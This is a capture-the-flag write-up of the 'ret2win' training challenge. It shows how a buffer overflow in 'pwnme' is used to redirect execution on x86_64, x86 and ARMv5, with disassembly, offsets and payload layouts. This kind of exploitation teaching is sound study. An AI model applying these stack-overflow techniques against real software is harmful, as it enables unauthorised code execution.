 # ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.
For all architectures, the buffer overflow is a read of 56 bytes into a 32 bytes buffer.

## x86_64:
```
0000000000400733 <pwnme + 0x4b>:
  400733:	48 8d 45 e0      lea    rax,[rbp-0x20]
  400737:	ba 38 00 00 00   mov    edx,0x38
  40073c:	48 89 c6         mov    rsi,rax
  40073f:	bf 00 00 00 00   mov    edi,0x0
  400744:	e8 47 fe ff ff   call   400590 <read@plt>
...

0000000000400754 <pwnme + 0x6c>:
  400754:	c9               leave
  400755:	c3               ret
```
We have only the 32 bytes for the buffer, so it will only take 40 bytes to reach the return address.
However, this is a x64 challenge so the stack pointer has to be 16-byte aligned when returning
from functions. To avoid a segfault on an aligned memory move, we can stick the address of a `ret`
instruction before the ret2win address.
```
┌─────────────────────────┐  ┌─────────────────────────┐
│ buffer                  │  │ 20 20 20 20 20 20 20 20 │ <- padding (40 bytes)
│                         │  │ 20 20 20 20 20 20 20 20 │
│                         │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  │ 20 20 20 20 20 20 20 20 │
│ old_rbp                 │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  ├─────────────────────────┤
│ ret                     │  │ 0x400755                │ <- ret
├─────────────────────────┤  ├─────────────────────────┤
│ ...                     │  │ 0x400756                │ <- ret2win address
└─────────────────────────┘  └─────────────────────────┘
```
## x86:
```
08048609 <pwnme + 0x5c>:
 8048609:	6a 38            push   0x38
 804860b:	8d 45 d8         lea    eax,[ebp-0x28]
 804860e:	50               push   eax
 804860f:	6a 00            push   0x0
 8048611:	e8 9a fd ff ff   call   80483b0 <read@plt>
...
0804862a <pwnme + 0x7d>
 804862a:	c9                   	leave
 804862b:	c3                   	ret
```
Since the `leave` instruction is cleaning the stack frame for this function,
and the read call is writing at `[ebp - 0x28]`, we can deduce that the return address will be
at `buffer + 0x28 + 0x4 = buffer + 44`. Thus we need 44 bytes of padding, then the ret2win address
```
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (44 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ ...         │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ ...         │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old rbp     │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ ret         │  │ 0x804862c   │ <- ret2win address
└─────────────┘  └─────────────┘
```

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
In ARMv5, the return address is the `lr` register.   
So in order to overwrite it, we need 36 bytes of padding, then the ret2win address.   
```bash
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (36 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old fp      │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ lr          │  │ 0x105ec     │ <- ret2win address
└─────────────┘  └─────────────┘
```
